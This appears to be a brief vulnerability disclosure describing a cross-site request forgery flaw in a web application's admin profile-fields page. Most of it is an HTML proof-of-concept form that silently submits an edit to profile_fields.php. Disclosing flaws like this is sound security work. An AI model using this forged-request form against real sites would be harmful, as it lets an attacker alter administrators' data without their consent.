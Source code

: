 # Profile Fields CSRF
Allows for the profile fields to be edited through CSRF.

## PoC:
```html
<link rel="stylesheet" href="http://localhost/public/admin/bower_components/bootstrap/dist/css/bootstrap.min.css">

<form method="POST" action="http://localhost/admin/profile_fields.php" style="padding: 25px;">
    <input type="hidden" name="id" value="1">
    <div class="form-group">
    <label for="title">Title</label>
    <input type="text" class="form-control" id="title" name="title" value="discord">
    </div>
    <button type="submit" name="savechange" id="savechange" class="btn btn-primary">Save Changes</button>
</form>
```
